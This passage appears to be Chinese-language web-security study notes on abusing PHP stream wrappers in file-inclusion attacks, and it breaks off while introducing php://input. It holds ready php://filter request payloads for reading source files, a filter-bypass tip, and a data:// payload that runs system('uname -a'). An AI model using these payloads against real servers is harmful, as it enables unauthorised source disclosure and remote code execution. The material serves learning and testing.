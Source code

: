 为什么要进行编码? 因为这样代码将变得不可执行, 如果直接原样返回, 假设目标是一串可执行代码, 如 php, 将返回代码结果而不是源码本身

> `read` 是可省略的

用过的姿势:
```
# base64 编码
GET /?filename=php://filter/convert.base64-encode/resource=check.php HTTP/1.1

# rot13 编码
GET /?filename=php://filter/read=string.rot13/resource=./check.php HTTP/1.1

# 转小写
GET /?filename=php://filter/read=string.tolower/resource=./check.php HTTP/1.1

# 去除 html/php 标签
GET /?filename=php://filter/read=string.strip_tags/resource=./check.php HTTP/1.1

# 将数据转换为 quoted-printable 格式
GET /?filename=php://filter/read=convert.quoted-printable-encode/resource=./check.php HTTP/1.1

# 字符集从 UTF-8 转换到 ISO-8859-1 (还可以是utf-32等)
# convert.iconv.<in-enc>.<out-enc> 
GET /?filename=php://filter/read=convert.iconv.utf-8/iso-8859-1/resource=./check.php 
```

绕过姿势:
1. `read=` 字符是可以省略的, 绕过 `read` 过滤

#### data:// 伪协议

```
data://<MIME类型>;[选项],<数据内容>
```
MIME 类型：如 text/plain、application/php 等，指定数据的类型。
选项：常用 base64 表示数据已进行 Base64 编码。
数据内容：直接嵌入的文本数据或 Base64 编码后的数据。

例如:
```php
<?php include('data://text/plain;base64,PD9waHAgc3lzdGVtKCd1bmFtZSAtYScpOyA/Pg=='); ?>
```
解码后:
```php
<?php system('uname -a'); ?>
```

再例如, 使用 data:// 伪协议来传参:

```
c=data://text/plain;base64,eyJtIjoiMjAyNWEiLCJuIjp7IjIwMjVhIjpbMSwxXSwiREdHSiI6MX19
```

#### php://input 协议

这是一个关键协议, 是非常常用的攻击对象, 如果执行了这个协议, 那么服务器会直接执行 body  正文表单中的 php 代码, 而这个代码可以含有系统指令, 例如:
